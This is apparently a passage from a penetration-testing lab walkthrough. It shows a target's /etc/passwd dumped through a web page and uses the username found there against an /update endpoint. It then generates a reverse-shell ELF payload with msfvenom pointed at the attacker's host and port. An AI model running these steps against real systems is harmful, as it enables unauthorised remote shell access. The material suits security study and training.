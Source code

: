 ```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh

            </div>
        </div>
    </body>
</html>
```

Nice! At the end of the file, we can see the user `clumsyadmin`. Recall that we needed a valid username to interact with the **/update** endpoint. Seeing as this appears to be the only user on the system  other than root, we can next try supplying it to the endpoint.

### Remote Code Execution

We saw in the API documentation that it expects a Linux ELF  executable to apply the “update”. We’ll start by creating our reverse  shell payload.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.5 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```
